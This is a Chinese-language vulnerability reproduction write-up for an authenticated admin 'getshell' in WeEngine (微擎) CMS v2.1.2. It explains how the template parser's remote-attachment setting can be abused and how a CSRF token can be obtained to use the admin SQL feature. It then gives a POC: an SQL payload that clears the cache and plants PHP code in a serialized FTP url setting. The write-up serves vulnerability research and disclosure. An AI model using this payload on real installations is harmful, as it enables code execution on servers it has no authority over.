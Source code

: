 ```yaml
---
title: 微擎cms v2.1.2 后台getshell
id: zhfly3368
---
```


# 微擎cms v2.1.2 后台getshell

## 一、漏洞简介

需要登录后台，并且有高权限。

## 二、漏洞影响

v2.1.2

## 三、复现过程

这个洞首先需要一个高权账号。
问题出在模板解析这里(template.func.php)。

![image](../img/f24587ffd94ecfc37dc94eccd219054c.png)

attachurl_remote来自于后台的设置,但是有一层htmlspecialchars

![image](../img/5e8417d1e00c913a3ca8e15a55e22b1c.png)

![image](../img/0055b6af34f914079d68097a740bf16b.png)

但是恰巧微擎支持SQL操作,虽然有些绿化版本的把SQL提交按钮和TOKEN值隐藏了,但是由于微擎一个页面做了多个CASE,所以可以数据表优化处找到TOKEN

![image](../img/9afebcd63a2a0425d24c93bf6be0fbc3.png)

这样就可以愉快的修改SQL了,然后会发现微擎存在一个缓存表,同时remote这边的设置做了序列化(其实这个也可以利用),就可以构造如下

### POC

```
sql=DELETE from ims_core_cache;update ims_core_settings  set `value` ='a:5:{s:4:"type";i:1;s:6:"alioss";a:4:{s:3:"key";s:0:"";s:6:"secret";s:0:"";s:6:"bucket";N;s:8:"internal";s:1:"0";}s:3:"ftp";a:9:{s:3:"ssl";i:1;s:4:"host";s:9:"127.0.0.1";s:4:"port";s:2:"21";s:8:"username";s:4:"root";s:8:"password";s:4:"root";s:4:"pasv";i:0;s:3:"dir";s:10:"127.0.0.11";s:3:"url";s:28:"127.0.0.1?<?php echo 123; ?>";s:8:"overtime";i:0;}s:5:"qiniu";a:4:{s:9:"accesskey";s:0:"";s:9:"secretkey";s:0:"";s:6:"bucket";s:0:"";s:3:"url";s:0:"";}s:3:"cos";a:6:{s:5:"appid";s:0:"";s:8:"secretid";s:0:"";s:9:"secretkey";s:0:"";s:6:"bucket";s:0:"";s:5:"local";s:0:"";s:3:"url";s:0:"";}}' where `key`="remote";&token=9def73ec&submit=submit 
```

最后刷新缓存然后打开有加载footer的页面就能getshell了

![image](../img/5acd7a08337eed107dae071c8231e099.png)

![image](../img/0df2a6d1dfd03ad8c34d11a0489cc22c.png)

![image](../img/f33bc190538b1e32cfb3197b4c9ef48a.png)